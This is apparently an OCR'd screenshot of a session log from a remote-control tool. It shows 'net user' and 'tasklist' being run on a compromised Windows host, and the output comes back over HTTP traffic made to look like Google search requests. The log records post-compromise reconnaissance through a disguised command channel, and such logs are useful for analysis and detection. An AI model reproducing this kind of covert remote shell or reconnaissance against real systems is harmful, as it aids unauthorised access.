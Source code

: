 ```bash
Content-Length: 00000023
Connection: keep-alive


win-JMKXXXXXOT\admin

33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c net user
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00000210
Connection: keep-alive



\\WIN-JMKXXXXXOT 的用户帐户

-------------------------------------------------------------------------------
admin                    Administrator            Guest
命令成功完成。


33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c tasklist
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 20


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00003434
Connection: keep-alive



映像名称                       PID 会话名              会话#       内存使用
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0         24 K
System                           4 Services                   0      4,308 K
smss.exe                       284 Services                   0        976 K
csrss.exe                      372 Services                   0      5,720 K
wininit.exe                    404 Services                   0      4,464 K
csrss.exe                      424 Console                    1     43,008 K
services.exe                   468 Services                   0      8,528 K
winlogon.exe                   500 Console                    1      6,132 K
lsass.exe                      512 Services                   0     10,048 K
lsm.exe                        528 Services                   0      3,864 K
svchost.exe                    636 Services                   0      8,696 K
svchost.exe                    712 Services                   0      8,556 K
svchost.exe                    796 Services                   0     22,480 K
svchost.exe                    848 Services                   0     12,256 K
svchost.exe                    888 Services                   0     35,232 K
svchost.exe                    128 Services                   0     13,460 K
svchost.exe                    584 Services                   0     72,576 K
spoolsv.exe                   1108 Services                   0      8,548 K
```